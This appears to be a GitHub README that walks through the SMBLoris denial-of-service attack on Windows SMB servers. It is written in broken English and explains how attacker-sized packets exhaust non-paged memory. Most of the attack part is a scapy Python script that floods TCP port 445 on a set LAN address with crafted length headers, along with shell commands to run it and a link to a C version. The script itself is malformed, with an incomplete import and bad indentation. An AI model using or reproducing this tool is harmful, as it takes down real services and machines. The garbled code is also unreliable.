 # what IS the Smb !! 
Me sharing files remotely by Protocol SMBv1 Or SMBv2 SMBv3 
-------------------------
vulnerable On Next in Text from i,am 
The vulnerability is in all modern versions of Windows, at least from Windows 2000 through Windows 10. Systems are still vulnerable even if all versions of SMBv1 SMBv2 SMBv3 are disabled

It is computationally inexpensive for an attacker to cause large memory allocations and enormous amounts of wasted CPU cycles†, rendering vulnerable machines completely unusable, making business-critical services (such as web and mail servers) unavailable, and even causing the entire operating system to crash !!
''''''''''
And Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced.


# But by me files
1 rest.sh 

2 run.sh  

3 smb3.py 

Works only on Kali version 2 #
Or
SMBLoris.c 

Normal Works on All systems Linux !! Redhat kali And And And And Etc!!

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

1 >_  Now we use smb3.py 

2 >_ Now we go to run rest.sh

![screenshot from 2017-08-09 19-19-12](https://user-images.githubusercontent.com/25440152/29142117-de3c8ec2-7d1e-11e7-8144-20261cf78916.png)
# Next >_ let's go To arrange
Edit Code file smb3.py 
```
from scapy.all import
import sys

    p0 = int(sys.argv[1])

    conf.L3socket
    conf.L3socket=L3RawSocket

    i = IP()
    i.dst = "192.168.1.4"
    t = TCP()
    t.dport = 445

    for p in range(p0, p0+700):
      print p
      t.sport = p
      t.flags = "S"

      r = sr1(i/t)
      rt = r[TCP]
      t.ack = rt.seq + 1
      t.seq = rt.ack
      t.flags = "A"
      sbss = '\x00\x01\xff\xff'
      send(i/t/sbss)

```
------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

! >_  let's go To Run run.sh After we have arranged file smb3.py 


```
root@kali:~/Desktop# chmod +x run.sh

root@kali:~/Desktop#./run.sh
```

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||
Now let's go To Run file SMBLoris.c

https://gist.github.com/jihadLkmaty218/72440aa47ec1852fd806efaf3752c52d

>_  After the download file let's go To Run

![screenshot from 2017-08-09 19-44-22](https://user-images.githubusercontent.com/25440152/29143202-50fe7d0a-7d22-11e7-9cda-7307c6cdb0a3.png)

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

![screenshot from 2017-08-09 19-44-48](https://user-images.githubusercontent.com/25440152/29143208-53a592dc-7d22-11e7-892e-b3a20fef0ce2.png)

